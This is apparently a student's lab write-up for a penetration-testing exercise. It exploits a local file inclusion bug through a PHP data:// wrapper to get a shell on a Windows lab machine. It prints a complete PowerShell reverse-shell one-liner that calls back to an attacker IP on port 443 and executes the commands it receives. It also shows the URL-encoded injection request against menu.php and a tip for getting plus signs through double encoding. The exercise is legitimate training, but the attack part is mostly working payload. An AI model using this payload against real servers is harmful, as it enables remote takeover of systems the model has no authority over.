 ### 9.4.4.10 Exercises
#### 1. Exploit the LFI vulnerability using a PHP wrapper.

![image-20200625210549359](.9.4.4.10.assets/image-20200625210549359.png)

#### 2. Use a PHP wrapper to get a shell on your Windows 10 lab machine.

- I modified the Powershell Reverse-Shell Code to be wrapped in PHP.  This took a considerable amount of time as I knew I needed to escape the single quotes but was still getting errors and no connection.  I finally realized I had to encode the plus signs (+) as %2B PRIOR to the URL encoding, as these plus signs had to survive two rounds of rendering to make it to Powershell intact. 
  
  ```php
data:text/plain,<?php echo shell_exec('powershell -c "$client = New-Object System.Net.Sockets.TCPClient(\'192.168.119.216\',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback %2B \'PS \' %2B (pwd).Path %2B \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"') ?>
  ```
  
  I encoded this for URL's and supplied it as the parameter in the URL to have the server initiate a reverse shell to my listening Kali box:
  ```php+HTML
  http://192.168.216.10/menu.php?file=%64%61%74%61%3a%74%65%78%74%2f%70%6c%61%69%6e%2c%3c%3f%70%68%70%20%65%63%68%6f%20%73%68%65%6c%6c%5f%65%78%65%63%2
  ----SNIPPED----
  24%63%6c%69%65%6e%74%2e%43%6c%6f%73%65%28%29%22%27%29%20%3f%3e
  ```
  
- Obtained shell access on server:
  ![image-20200626113954409](.9.4.4.10.assets/image-20200626113954409.png)
  
  

